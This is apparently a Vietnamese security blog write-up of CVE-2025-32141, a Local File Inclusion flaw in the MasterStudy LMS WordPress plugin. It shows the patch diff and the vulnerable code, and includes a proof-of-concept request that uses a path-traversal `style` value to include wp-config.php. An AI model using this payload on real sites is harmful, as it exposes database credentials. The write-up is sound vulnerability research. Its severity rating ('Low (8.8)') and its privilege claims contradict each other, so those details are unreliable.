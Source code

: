 # CVE-2025-32141 Analysis & POC


<!--more-->

## CVE & Basic Info
Plugin **MasterStudy LMS** phiên bản **≤ 3.5.28** chứa lỗ hổng **Local File Inclusion** cho phép kẻ tấn công không cần xác thực điều khiển tham số file trong lệnh `include/require`, từ đó chèn hoặc đọc các tệp cục bộ trên máy chủ (ví dụ file cấu hình chứa credential), dẫn tới rò rỉ thông tin nhạy cảm và trong một số cấu hình có thể dẫn tới thực thi mã.

* **CVE ID**: [CVE-2025-32141](https://www.cve.org/CVERecord?id=CVE-2025-32141)
* **Vulnerability Type**: Local File Inclusion
* **Affected Versions**: <= 3.5.28
* **Patched Versions**: 3.5.29
* **CVSS severity**: Low (8.8)
* **Required Privilege**: Contributor
* **Product**: [WordPress MasterStudy LMS Plugin](https://wordpress.org/plugins/masterstudy-lms-learning-management-system/)

## Requirements
* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **MasterStudy LMS**: **3.5.28** (vulnerable) và **3.5.29** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) hoặc bất kỳ công cụ so sánh (diff) nào để kiểm tra và so sánh khác biệt giữa hai phiên bản.

## Analysis

### Patch diff

**Bản lỗi**:

```php {filename="stm_lms_courses_categories.php v3.5.28" hl_lines=[7,12]}
<?php
add_shortcode( 'stm_lms_courses_categories', 'stm_lms_courses_categories_shortcode' );
function stm_lms_courses_categories_shortcode( $atts ) {
    $atts = shortcode_atts(
        array(
            'taxonomy' => '',
            'style'    => 'style_1',
        ),
        $atts
    );
    ob_start();
    STM_LMS_Templates::stm_lms_load_vc_element( 'courses_categories', $atts, $atts['style'] );
    return ob_get_clean();
}
```

Trong phiên bản lỗi, callback của shortcode `stm_lms_courses_categories` lấy trực tiếp giá trị `style` từ mảng `$atts` và truyền thẳng vào `STM_LMS_Templates::stm_lms_load_vc_element()` mà không có bất kỳ kiểm tra hay làm sạch đầu vào nào => LFI có thể xảy ra.

**Bản vá**:

```php {filename="stm_lms_courses_categories.php v3.5.29" hl_lines=[7,12,14]}
<?php
add_shortcode( 'stm_lms_courses_categories', 'stm_lms_courses_categories_shortcode' );
function stm_lms_courses_categories_shortcode( $atts, $content = null, $tag = '' ) {
	$atts = shortcode_atts(
		array(
			'taxonomy' => '',
			'style'    => 'style_1',
		),
		$atts,
		$tag
	);
	$atts['style'] = basename( sanitize_file_name( $atts['style'] ) );
	ob_start();
	STM_LMS_Templates::stm_lms_load_vc_element( 'courses_categories', $atts, $atts['style'] );
	return ob_get_clean();
}
```

Bản vá đã sanitize `$atts['style']` bằng [`sanitize_file_name()`](https://developer.wordpress.org/reference/functions/sanitize_file_name/) đã loại bỏ chuỗi/ký tự không an toàn => ngăn chặn LFI.

### Vulnerable Code 

```php {filename="templates.php v3.5.28" hl_lines=[3,7,8]}
public static function stm_lms_load_vc_element( $__template, $__vars = array(), $__template_name = '', $custom_path = '' ) {
    extract( $__vars ); // phpcs:ignore WordPress.PHP.DontExtract
    $element = self::stm_lms_locate_vc_element( $__template, $__template_name, $custom_path );
    if ( ! file_exists( $element ) && strpos( $__template_name, 'style_' ) !== false ) {
        $element = str_replace( $__template_name, 'style_1', $element );
    }
    if ( file_exists( $element ) ) {
        include $element;
    } else {
        echo esc_html__( 'Element not found in', 'masterstudy-lms-learning-management-system' );
        echo esc_html( ' ' . $element );
    }
}
```

Hàm `include()` tại đây dùng biến `$element` do `stm_lms_locate_vc_element()` trả về và `$__template_name` (tức giá trị `style` từ shortcode) ảnh hưởng trực tiếp tới kết quả đó. Nếu `style` không được xác thực, attacker có thể ép `include` file tùy ý dẫn đến LFI.

```php {filename="templates.php v3.5.28" hl_lines=[3,7,8]}
public static function stm_lms_locate_vc_element( $templates, $template_name = '', $custom_path = '' ) {
    $located = false;

    foreach ( (array) $templates as $template ) {

        $folder = $template;

        if ( ! empty( $template_name ) ) {
            $template = $template_name;
        }

        if ( substr( $template, -4 ) !== '.php' ) {
            $template .= '.php';
        }

        if ( empty( $custom_path ) ) {
            $located = locate_template( 'partials/vc_parts/' . $folder . '/' . $template );
            if ( ! ( $located ) ) {
                $located = STM_LMS_PATH . '/includes/shortcodes/partials/' . $folder . '/' . $template;
            }
        } else {
            $located = locate_template( $custom_path );
            if ( ! ( $located ) ) {
                $located = STM_LMS_PATH . '/' . $custom_path . '.php';
            }
        }

        if ( file_exists( $template_name ) ) {
            break;
        }
    }

    return apply_filters( 'stm_lms_locate_vc_element', $located, $templates );
}
```

Hàm `stm_lms_locate_vc_element()` có nhiệm vụ xác định và trả về đường dẫn file template (`.php`) 

Nếu có `$template_name`, nó sẽ **ghi đè tên template mặc định** và đảm bảo tên file có phần mở rộng `.php`. Tên file sẽ là`STM_LMS_PATH/includes/shortcodes/partials/{folder}/{template}.php`

Ví dụ với `style=payload` thì `stm_lms_locate_vc_element()` sẽ trả về:

```py
/srv/www/wordpress/wp-content/plugins/masterstudy-lms-learning-management-system/_core/includes/shortcodes/partials/courses_categories/payload.php
```

## Exploit
### Proof of Concept (PoC)

Tạo post với shortcode có attribute `style` chứa LFI payload

```http {hl_lines=[4]}
POST /wp-json/wp/v2/posts/260?_locale=user HTTP/1.1
Host: localhost

{"id":260,"content":"<!-- wp:shortcode -->\n[stm_lms_courses_categories taxonomy=x style=../../../../../../../../wp-config]\n<!-- /wp:shortcode -->\n\n<!-- wp:paragraph -->\n<p></p>\n<!-- /wp:paragraph -->"}
```

**Kết quả**:

Debugger đã nhảy đến `wp-config.php`

{{< figure src="result.png" caption="Kết quả LFI thành công" >}}

## Conclusion

Phiên bản **≤ 3.5.28** của MasterStudy LMS cho phép LFI qua tham số `style` trong shortcode do không kiểm tra đầu vào trước khi `include` file. Bản vá **3.5.29** đã làm sạch giá trị này bằng `sanitize_file_name()` và `basename()`, ngăn chặn việc truy cập file ngoài ý muốn.

## Key takeaways

* Không bao giờ ghép trực tiếp input người dùng vào đường dẫn file.
* Luôn sanitize hoặc giới hạn giá trị bằng whitelist trước khi `include`.
* Xác thực đường dẫn thực tế để đảm bảo file nằm trong thư mục hợp lệ.
* Cập nhật lên **v3.5.29** để loại bỏ lỗ hổng LFI.

## References

[File Inclusion/Path traversal — Hacktrick](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html?highlight=lfi#lfi--rfi-using-php-wrappers--protocols)

[ WordPress MasterStudy LMS Plugin <= 3.5.28 is vulnerable to Local File Inclusion ](https://patchstack.com/database/wordpress/plugin/masterstudy-lms-learning-management-system/vulnerability/wordpress-masterstudy-lms-plugin-3-5-23-local-file-inclusion-vulnerability?_s_id=cve)

---

> Tác giả: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/vi/posts/2025-10-21-cve-2025-32141/  

